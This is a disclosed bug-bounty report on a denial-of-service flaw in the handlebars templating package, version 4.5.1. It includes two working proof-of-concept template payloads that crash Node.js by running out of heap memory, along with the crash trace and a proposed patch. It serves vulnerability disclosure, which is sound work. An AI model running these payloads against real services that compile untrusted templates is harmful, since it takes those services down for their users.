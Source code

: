 # Crash Node.js process from handlebars using a small and simple source

## Report Details
- **Report ID**: 726364
- **URL**: https://hackerone.com/reports/726364
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-10-31T13:23:37.637Z
- **Disclosed**: 2020-04-27T22:13:11.436Z

## Reporter
- **Username**: macasun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Denial of service in handlebars.
It allows an attacker to crush Node.js process with a small and simple source.

# Module

**module name:** handlebars
**version:** 4.5.1
**npm page:** `https://www.npmjs.com/package/handlebars`

## Module Description

Handlebars.js is an extension to the Mustache templating language created by Chris Wanstrath. Handlebars.js and Mustache are both logicless templating languages that keep the view and the code separated like we all know they should be.

## Module Stats

9,223,382 downloads/week

# Vulnerability

## Vulnerability Description

By default Node.js limiting the max heap size to 700 MB or 1400MB on 32 and 64-bit platforms respectively. When the process consumes all available memory, it crashes. Handlebars doesn't validate the size of the context, so it's possible to create a very big string (using `String#repeat`) or a very big array (using `Array.push`), and concatenate a string or join an array to crash Node.js process. In theory, this exploit will crash node.js process that was started with increased memory limit: `--max-old-space-size=<memory-size>`. 

## Steps To Reproduce:

There are three possible variants of the exploit:
1. Generate a big string (500Mb) and call `String#concat` on it (the payload size is 124b).
2. Declare a small string (100b), convert it to array using `String#split` and call thousands of `Array#push/Array#join` (the payload is 88Kb).
3. Declare a medium size string (10Kb), convert it to array using `String#split` and call hundreds of `Array#push/Array#join` (the payload is 18Kb).

1. The exploit doesn't require input context, it creates everything inside the source.
2. Create a big size string using `String#repeat`.
3. Concatenate string with itself.
4. Compile and run template.
5. Process crashed.

Variant #1. Generate a big string (500Mb) and call `String#concat` on it:
```
const handlebars = require('handlebars');

let source = `
{{#with 'a' as |s0|}}
  {{#with (s0.repeat 500000000) as |s|}}
    {{s.concat s}}
    {{s.concat s}}
  {{/with}}
{{/with}}
`;

let template = handlebars.compile(source);
template();
```

Variant #2. Declare a small string (100b), convert it to array using `String#split` and call thousands of `Array#push/Array#join`:
```
const handlebars = require('handlebars');

let sourceHeader = `
{{#with 'ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss' as |s|}}
  {{#with s.split as |a|}}
`;
let sourceFooter = `
  {{/with}}
{{/with}}
`;
let sourceBody = '{{a.push s}}{{a.join}}'.repeat(10 ** 3 * 4);
let payload = sourceHeader + sourceBody + sourceFooter;

let template = handlebars.compile(payload);
template();
```

In both cases Node.js process crashes:
```
<--- Last few GCs --->

[11741:0x32299b0]     3929 ms: Mark-sweep 1245.6 (1426.4) -> 1245.6 (1425.4) MB, 33.7 / 0.0 ms  (average mu = 0.685, current mu = 0.001) last resort GC in old space requested
[11741:0x32299b0]     3963 ms: Mark-sweep 1245.6 (1425.4) -> 1245.6 (1425.4) MB, 34.4 / 0.0 ms  (average mu = 0.501, current mu = 0.001) last resort GC in old space requested

<--- JS stacktrace --->

==== JS stack trace =========================================

    0: ExitFrame [pc: 0xc1315dbe1d]
Security context: 0x2eee53b9e6e1 <JSObject>
    1: DoJoin(aka DoJoin) [0x2eee53b85e89] [native array.js:~87] [pc=0xc131892da0](this=0x2b1e3fd026f1 <undefined>,l=0x0378b7e7e3e9 <JSArray[6647]>,m=6647,A=0x2b1e3fd028c9 <true>,w=0x2eee53bdc0d9 <String[1]: ,>,v=0x2b1e3fd029a1 <false>)
    2: Join(aka Join) [0x2eee53b85ed9] [native array.js:1] [bytecode=0xc562a657d09 offset=71](this=0x2b1e3fd026f1 <undefined>...

FATAL ERROR: CALL_AND_RETRY_LAST Allocation failed - JavaScript heap out of memory
 1: 0x8dc1c0 node::Abort() [node]
 2: 0x8dc20c  [node]
 3: 0xad60ae v8::Utils::ReportOOMFailure(v8::internal::Isolate*, char const*, bool) [node]
 4: 0xad62e4 v8::internal::V8::FatalProcessOutOfMemory(v8::internal::Isolate*, char const*, bool) [node]
 5: 0xec3972  [node]
 6: 0xed318f v8::internal::Heap::AllocateRawWithRetryOrFail(int, v8::internal::AllocationSpace, v8::internal::AllocationAlignment) [node]
 7: 0xea2d3b v8::internal::Factory::NewRawTwoByteString(int, v8::internal::PretenureFlag) [node]
 8: 0x1191338 v8::internal::Runtime_StringBuilderJoin(int, v8::internal::Object**, v8::internal::Isolate*) [node]
 9: 0xc1315dbe1d 
Aborted (core dumped
```

## Patch

Validate the size of the context before calling any of its functions.
1. If context is a string, validate that its length doesn't exceed some logical value (100Kb for example).
2. If context is an array, validate that its size doesn't exceed some logical value (500 elements for example) and sum of all element's values less than logical value (10Kb for example).

## Supporting Material/References:

- Ubuntu 18.04.3
- node 10.15.1
- npm 6.4.1

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 

Best regards,
Alexander

## Impact

An attacker is able to crash Node.js process.

## Attachments
No attachments
